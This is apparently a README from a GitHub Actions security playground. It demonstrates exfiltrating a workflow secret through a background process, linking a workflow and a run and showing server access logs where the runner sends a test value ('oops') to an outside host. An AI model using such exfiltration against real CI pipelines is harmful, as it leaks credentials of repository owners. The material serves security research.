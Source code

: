 github actions playground
=========================

## exfiltrate secret with background process

- <https://github.com/delan/actions-playground/actions/workflows/exfiltrate_background.yml>
- <https://github.com/delan/actions-playground/actions/runs/16309745444/job/46062882688#step:3:236>

```
172.172.87.49 - - [16/Jul/2025:11:37:08 +0800] "GET /secret/pid_not_found HTTP/1.1" 404 274 "-" "-"
172.172.87.49 - - [16/Jul/2025:11:37:09 +0800] "GET /secret/pid_not_found HTTP/1.1" 404 274 "-" "-"
172.172.87.49 - - [16/Jul/2025:11:37:11 +0800] "GET /secret/pid_not_found HTTP/1.1" 404 274 "-" "-"
172.172.87.49 - - [16/Jul/2025:11:37:13 +0800] "GET /secret/found?value=oops HTTP/1.1" 404 274 "-" "-"
```
